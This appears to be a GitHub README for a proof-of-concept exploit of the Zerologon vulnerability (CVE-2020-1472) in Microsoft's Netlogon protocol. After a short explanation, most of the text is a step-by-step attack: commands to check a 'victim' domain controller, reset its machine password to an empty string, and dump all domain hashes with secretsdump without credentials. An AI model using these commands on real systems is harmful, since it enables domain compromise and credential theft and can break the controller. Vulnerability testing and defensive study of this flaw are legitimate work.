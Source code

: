 # Zerologon
Set of scripts, to test and exploit the zerologon vulnerability (CVE-2020-1472). 

***

# What is it?

ZeroLogon is a vulnerability that allows us to exploit a cryptography flaw in Microsoft's Active Directory Netlogon Remote Protocol (MS-NRPC), which allows users to log in to servers using NTLM. 

***

# Previous steps 

Before executing the exploit we must know that we need a different version of impacket, for this we will do the following. 

``> apt remove --purge impacket-scripts python3-impacket``

``> git clone https://github.com/SecureAuthCorp/impacket.git``

``> cd impacket``

``> pip install .``

***

# PoC (Proof Of Concept)

``git clone https://github.com/Nekoox/zerologon.git``

``cd zerologon``

``pip install -r requirements.txt``

## Check if the victim domain controller is vulnerable to zerologon.

``python3 tester.py <DC-NAME> <ip-address>``

In the event that the victim DC is vulnerable, a message will appear saying "Success! DC can be fully compromised by a Zerologon attack." 

Otherwise, that is, the victim DC is not vulnerable because the security hole has been patched, we will get the following message "Attack failed. Target is probably patched." 

***

## Change the password of the vulnerable domain controller to an empty string. 

``python3 empty_pw.py <DC-NAME> <ip-address>``

If the Domain Controller is vulnerable, after running the exploit it should not have any password. 


## Dump hashes of the Domain Controller. 

``> secretsdump.py -just-dc <DC-NAME>\$@<ip-address>``

By executing this, we will be able to see all the hashes of the domain, without any credentials. 

